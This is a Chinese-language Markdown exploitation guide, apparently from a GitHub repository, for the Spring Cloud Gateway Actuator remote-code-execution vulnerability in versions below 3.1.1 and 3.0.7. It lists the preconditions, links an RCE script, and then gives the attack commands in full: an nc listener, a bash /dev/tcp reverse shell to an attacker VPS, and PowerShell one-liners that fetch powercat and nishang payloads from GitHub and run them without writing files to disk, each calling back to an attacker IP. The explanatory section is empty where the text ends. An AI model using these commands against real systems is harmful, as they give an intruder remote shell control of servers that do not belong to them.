 # SpringCloudGateway 漏洞利用

## 利用条件：

- Spring Cloud Gateway 启用和暴露 Gateway Actuator 端点
- Spring Cloud Gateway < 3.1.1
- Spring Cloud Gateway < 3.0.7

## 利用方法：

#### 步骤一：

访问页面，可以看到路由配置信息：
` http://ip:端口/actuator/gateway/routes `

#### 步骤二：

使用[脚本](file/SpringCloudGateway.py)执行RCE命令

![](img/whoami.png)

#### 步骤三：
	
反弹shell

>vps开启nc监听：
```base
nc -lvp 2333
```
目标机器cmd执行：

>linux：
```base
bash -i >& /dev/tcp/vpsIP/2333 0>&1
```
>windows：

powercat反弹：
```base
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 2333 -e cmd
```
TCP流量，远程下载无文件落地执行：
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress vpsIP -port 2333
```
Udp流量,远程下载无文件落地执行
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp  -Reverse  -IPAddress  vpsIP -port 2333
```

## 漏洞原理：